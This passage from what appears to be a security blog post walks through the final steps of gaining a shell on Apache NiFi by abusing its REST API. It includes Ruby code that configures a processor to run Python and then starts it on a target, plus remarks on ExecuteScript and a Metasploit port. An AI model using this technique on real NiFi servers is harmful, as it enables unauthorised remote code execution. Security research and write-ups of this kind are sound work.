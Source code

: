 ```
configure_processor(millennium_falcon, "python", command_args)
```

Notice how only one '}' is required since there are only two arguments: -c and the script as a string.  See?  I told you it wasn't so bad.
# Step 5: Punch It
With everything set up, all that was left to do was hit engage on the hyperdrive.

```
def start_processor(processor)
  start_process = HTTP.put("#{TARGET}/processors/#{processor['id']}",
    :json => {
      :revision => {
        :clientId => "",
        :version => get_version(processor)
      },
      :component => {
        :id => processor["id"],
        :state => "RUNNING"
      }
  }).parse
  return start_process
end

start_processor(millennium_falcon)  # Execute python shell
sleep(1)                            # Gives the API some time to work
```

# Make the Kessel Run In <12 Packets
<figure style="text-align:center; margin:1em">
<img src="https://gph.to/2SB2nJg" alt="nifi-shell">
<figcaption style="font-size:x-small;">“It’s the ship that made the Kessel run in less than twelve parsecs. I’ve outrun Imperial starships. Not the local bulk cruisers, mind you. I’m talking about the big Corellian ships, now. She’s fast enough for you, old man.”</figcaption>
</figure>

And that is pretty much it.  The basics are creating a processor, setting it up to execute how you want, and letting it go to do the rest. 
# There's Always a Bigger Fish
The script I've outlined has some flaws, isn't really stealthy, and leaves a new processor running in NiFi, but guess what?  The API has functions that allow you to fix all of that to your liking!    Additionally, there are other processors like ExecuteScript that do similar things, giving you a mess of ways to get a shell on the system.  It's like a choose your own adventure application. 

For me, after I had a decent script running, I thought I would port it to Metasploit, so I did.  And let me tell you, I need to write a blog post on how I did that because it was an adventure through its own universe. 
